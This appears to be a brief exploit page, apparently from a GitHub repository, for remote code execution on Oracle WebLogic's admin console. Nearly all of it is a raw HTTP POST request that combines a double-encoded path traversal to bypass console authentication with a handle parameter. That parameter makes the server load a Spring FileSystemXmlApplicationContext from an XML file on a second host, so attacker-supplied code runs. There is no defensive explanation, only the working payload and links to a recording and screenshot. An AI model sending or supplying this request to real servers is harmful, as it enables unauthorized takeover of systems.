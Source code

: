 [![asciicast](https://asciinema.org/a/MwvRG8zcmtmWspFHlWExVm05S.svg)](https://asciinema.org/a/MwvRG8zcmtmWspFHlWExVm05S)


## FileSystemXmlApplicationContext

`com.bea.core.repackaged.springframework.spring.jar#com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 155

_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://172.16.242.1:8989/poc.xml")
```
![](./images/FileSystemXmlApplicationContext.png)
